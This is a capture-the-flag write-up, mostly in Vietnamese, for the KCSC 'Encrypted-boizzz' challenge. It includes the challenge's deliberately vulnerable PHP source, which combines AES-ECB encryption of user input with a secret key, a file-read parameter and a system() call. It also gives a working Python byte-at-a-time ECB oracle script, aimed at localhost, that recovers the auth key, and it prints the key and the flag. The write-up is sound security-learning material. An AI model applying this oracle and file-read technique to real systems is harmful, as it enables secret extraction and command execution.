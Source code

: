 # KCSC Recruit Memmbers - Encrypted-boizzz

## Description
```
IP
```

**Author**: `nhienit`

# Solution
Write-up dựa trên: https://github.com/d47sec/CTF-Writeups/tree/main/EnCryptBoizzz, mình viết lại nhằm mục đích cá nhân là note các ý mình chưa hiểu, lưu trữ và ghi nhớ.

`source-code:`
```php
<?php

session_start();
@require_once 'config.php';

if (isset($_GET['debug'])) {
    show_source(__FILE__);
    die();
}

define('BLOCK_SIZE', 16);

function pad($string) {
    if (strlen($string) % BLOCK_SIZE === 0)
        $plaintext = $string;
    else  {
        $s = BLOCK_SIZE - strlen($string) % BLOCK_SIZE;
        $plaintext = $string.str_repeat(chr($s), $s);
    } 
    return $plaintext;
}
function encrypt($name) {
    global $auth_key, $key_for_enc; // from config.php with luv!!

    $method = 'AES-128-ECB';
    $plaintext = pad($name.$auth_key);
    return bin2hex(openssl_encrypt($plaintext, $method, $key_for_enc, OPENSSL_RAW_DATA));
}

if (isset($_GET["name"])) 
    $_SESSION["name"] = encrypt($_GET['name']);

if (isset($_GET['file'])) { // safe() in config.php, try to guess my filter =))
    if (safe($_GET['file'])) 
        @readfile($_GET['file']);
    else die("Dont hack me please =((((");
}

if (isset($_GET['auth_key'])) {
    if ($_GET['auth_key'] === $auth_key) {
        if ( isset($_GET["command"]) && strlen($_GET["command"]) <= 5)
            @system($_GET["command"]);
    }
    else echo "Wrong auth_key!!";
}

?>


<h1>Hello hacker ^>^ </h1>

<!-- 
// TODO: Remove 

<strong>To debug, use ?debug=hint </strong>
-->
```

At 3 bytes tang 1 block
At 19 bytes tang them 1 block Cứ mỗi 16 bytes tăng 1 block--> `16 bytes encryption`


```python
params = {
    'name': 'A' * 32,
}
```
`result`:
```
5673760b1cc65c36 5e93fa8f4317a2c4
16 bytes 'A'    | auth_key + padding    
5673760b1cc65c36 5e93fa8f4317a2c4
16 bytes 'A'    | auth_key + paddin
ddef00dfaf0fc11d ed05777122bec5c5
5fec0e7366a611d0 6db4ea75b91cedc3
```
**References**: https://zachgrace.com/posts/attacking-ecb/
1234567891234567 1234567891234567
AAAAAAAAAAAAAAAs cretkeyPPPPPPPPP
               ^
        brute-force this!! --> so sánh với block trước

**Tool exploit**:
```python
import requests
import re # for practice
import string

characters = string.digits + string.ascii_letters # characters for auth key

url = 'http://localhost:2010'
s = requests.Session()

cookies = {
    'PHPSESSID': '3da7886124215d24e99cc58c90072051'
}

def check():
    params = {
        'file': '/tmp/sess_3da7886124215d24e99cc58c90072051'
    }
    r = s.get(url, cookies=cookies, params=params)
    cipher = re.findall('"(.*)"', r.text)[0] # capture group(return)

    return cipher[:16] == cipher[32:48]

auth_key = ''
for i in range(15, -1, -1):
    for c in characters:
        params = {
            'name': 'a' * i + auth_key + c + 'a' * i
        }

        r = s.get(url, cookies=cookies, params=params)

        if check():
            auth_key += c
            print('[+] FOUND: ' + auth_key)
            break
        else:
            print('[-] FAILED at ' + str(i) + ': ' + c)

# AuthKey4N00b3r
```
**Auth key**: `AuthKey4N00b3r`

**flag**: `KCSC{Hello hacker! Hello new member ! Hello our talent <3}`
